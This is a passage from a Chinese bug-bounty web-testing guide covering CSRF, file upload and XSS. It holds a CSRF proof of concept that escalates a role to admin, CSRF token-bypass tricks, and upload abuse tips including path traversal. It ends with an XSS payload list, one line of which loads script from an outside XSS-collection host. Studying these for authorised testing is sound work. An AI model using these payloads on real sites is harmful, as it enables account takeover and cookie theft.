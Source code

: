 ```  
  
POST 请求数据为 json，当服务器没有严格校验 content-type 类型时，POC 为：  
```
<script>  
var xhr = new XMLHttpRequest();  
xhr.open("POST", "http://www.xxxx.com/api/setrole");  
xhr.withCredentials = true;  
xhr.setRequestHeader("Content-Type", "text/plain;charset=UTF-8");  xhr.send('{"role":admin}');
</script>

```  
##### 3. Flash 型  
  
Flash CSRF 通常是由于 Crossdomain.xml 文件配置不当造成的，利用方法是使用 swf 来发起跨站请求伪造。  
  
利用条件：  
  
1、目标站点下必须存在 crossdomain.xml 文件。  
  
2、crossdomain.xml 中的配置允许其他域进行跨域请求。  
```
<?xml version="1.0"?><cross-domain-policy>  <allow-access-from domain="*" /></cross-domain-policy>

```  
  
**bypass 小技巧**  
- 删除 csrf token  
  
- 置空 csrf token  
  
- 修改请求方法，如 POST 方法变 GET 请求  
  
- 使用与 token 相同长度的任意字符串替换 token，例如尝试更改一个字符，看看或发生什么  
  
- 使用固定 token  
  
- token 字段改成 token[]=  
  
#### 任意文件上传漏洞  
  
这个洞遇到的也比较多，一般来说是后端没有限制上传文件的类型。但是上传的脚本文件也不会解析。也就没有办法 getshell。(很多 SRC 对于上传到 cdn 云服务器的任意文件上传是忽略的)。  
- 上传含有 xss 代码的 html 文件，造成存储型 xss(如果上传到了 cdn 服务器之类的大概率忽略)。  
  
- 上传恶意文件进行钓鱼  
  
- 尝试在上传的文件名前加../ 进行目录穿越。  
  
- 可以结合其他漏洞比如 CORS 漏洞扩大危害。  
  
文件上传的常见的绕过姿势应该也挺熟悉的了。。，实际测试的时候发现在进行申请企业、个人认证的时候，上传文件处常常有这个问题。  
#### XSS 漏洞  
  
老熟人了，不多说了，常见的姿势大家应该都知道。分享一个我学 XSS 的文章:https://wizardforcel.gitbooks.io/xss-naxienian/content/index.html  
  
Broken5 师傅的 xsspayload:  
```
<script>alert(1)</script>
<script src=https://xsspt.com/VBAhTu></script>
<a href=javascript:alert(1)>xss</a>
<svg onload=alert(1)>
<img src=1 onerror=alert(1)>
<img src=https://www.baidu.com/img/bd_logo1.png onload=alert(1)>